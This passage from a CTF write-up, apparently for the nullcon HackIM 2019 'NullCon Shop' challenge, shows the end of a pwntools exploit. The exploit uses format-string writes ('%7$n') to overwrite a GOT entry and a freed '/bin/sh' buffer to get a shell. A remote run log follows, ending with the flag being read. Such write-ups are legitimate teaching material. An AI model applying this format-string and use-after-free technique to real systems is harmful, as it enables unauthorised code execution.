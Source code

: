 ```
part1 = str(((leak & 0xffff0000) >> 16)) 
part2 = str(((leak & 0xffff00000000) >> 32))

print "part 0: " + hex(int(part0))
print "part 1: " + hex(int(part1))
print "part 2: " + hex(int(part2))


# Add the three books to do the format string
# We need the 0x602028 address still to not cause a segfault when it prints
# the got address we are trying to overwrite is at 0x602018

addBookSpc("50", "5", p64(0x60201a) + p64(0x602028) + "z"*8 + "%" + part1 + "x%7$n")
addBookSpc("50", "5", p64(0x602018) + p64(0x602028) + "z"*8 + "%" + part0 + "x%7$n")
addBookSpc("50", "5", p64(0x60201c) + p64(0x602028) + "z"*8 + "%" + part2 + "x%7$n")

# Print the books to execute the format string write
target.sendline('3')

# Free the book with "/bin/sh" to pass a pointer to "/bin/sh" to system
target.sendline('2')
target.sendline('7')

# Drop to an interactive shell
target.interactive()
```

and when we run the remote exploit:

```
$ python exploit.py 
[+] Opening connection to pwn.ctf.nullcon.net on port 4002: Done
NullCon Shop
(1) Add book to cart
(2) Remove from cart
(3) View cart
(4) Check out

. . .

$ w
 18:51:13 up 7 days,  3:10,  0 users,  load average: 0.03, 0.13, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
challenge
flag
$ cat flag
hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}
$ w
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to pwn.ctf.nullcon.net port 4002
```

Just like that, we get the flag `hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}`
